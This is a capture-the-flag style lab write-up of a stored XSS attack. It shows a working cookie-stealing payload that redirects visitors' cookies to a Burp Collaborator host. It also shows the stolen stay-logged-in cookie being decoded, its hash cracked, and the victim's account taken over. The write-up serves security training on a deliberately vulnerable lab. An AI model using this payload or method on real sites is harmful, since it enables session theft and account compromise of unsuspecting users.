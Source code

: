 # Lab Offline password cracking

Objective: 

 This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's stay-logged-in cookie and use it to crack his password. Then, log in as carlos and delete his account from the "My account" page.

    Your credentials: wiener:peter
    Victim's username: carlos


Visiting the landing page reveals the following

![image](https://user-images.githubusercontent.com/90155329/133942862-ec0a9ffb-6ef4-4e01-ac83-62fb61dcc7be.png)

Selecting "View Post" visits one of the blog posts


Scrolling down reveals the vulnerable comment section. 

![image](https://user-images.githubusercontent.com/90155329/133942865-4f8184a0-c442-4a78-8988-191421cc15e4.png)

I need to try different XSS payloads until, one works. 

Using the BurpSuite XSS cheat sheet, I found the following payload.

![image](https://user-images.githubusercontent.com/90155329/133942870-b5989783-1164-445a-a7ac-187c8acf46ea.png)

`
<video><source onerror=location=/\02.rs/+document.cookie>
`

I can use the "Burp Collaborator Client" which is a feature of BurpSuitePro that allows me to test out of band techniques. 

Burp Collaborator will start a listener for me on burpcollaborator.net. Any traffic to this domain will be sent to my client.

To start a listener, visit Burp > Burp Collaborator client

![image](https://user-images.githubusercontent.com/90155329/133942874-80ba6857-7546-4333-95d1-fd864f8ef816.png)

Clicking "Copy to clipboard, will get me the collaborator domain I will use for my attacks"

![image](https://user-images.githubusercontent.com/90155329/133942880-fbf73ba7-a413-455b-9cc9-a5eac1428618.png)

93abbpng7znc1866if44gqzo5fb7zw.burpcollaborator.net

I modified the XSS payload to use the collaborator domain.

`
<video><source onerror=location=/\93abbpng7znc1866if44gqzo5fb7zw.burpcollaborator.net/+document.cookie>
`

I dropped the payload into the vulnerable comment section.
![image](https://user-images.githubusercontent.com/90155329/133942886-748cad9b-06f3-4c39-9ee9-3f6483e51a4d.png)

After posting the payload, the page redirected to the burp collaborator domain with my current session cookie

![image](https://user-images.githubusercontent.com/90155329/133942888-c2c1323c-986f-4468-9209-452ec28e4b18.png)

This means that the XSS payload worked. Any user who visits that blog page will send their cookie to my burp collaborator client.

Immediately after dropping the payload, I received a request on my burp collaborator client.

![image](https://user-images.githubusercontent.com/90155329/133942890-fe56dde9-8db5-48f2-8ca6-4b59c62bd641.png)

`
secret=AulNpHRdIdE7ysgqyP2AVqQTRBqD0O7X;%20stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz
`

The logged-in value looks like base64:

`
Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz
`

After base64 decoding the cookie results in the following:

`
carlos:26323c16d5f4dabff3bb136f2460a943
`

Cracking this hash reveals the password of onceuponatime

![image](https://user-images.githubusercontent.com/90155329/133942911-a5ccba5d-abd8-4c90-8074-27ed72809358.png)

This attack simulated the carlos user, visiting the blog page containing the XSS payload which sent his cookie to my burp collaborator. 

I tried this password

![image](https://user-images.githubusercontent.com/90155329/133942915-0842661a-fe1b-4dd2-976e-436e05afae6c.png)

These credentials worked, and I was able to delete his account to complete the lab

![image](https://user-images.githubusercontent.com/90155329/133942922-113f7f9a-23bd-4b93-9001-16b9d6c3732b.png)
![image](https://user-images.githubusercontent.com/90155329/133942927-eaf3b087-9feb-411d-967f-03a59240a1e9.png)
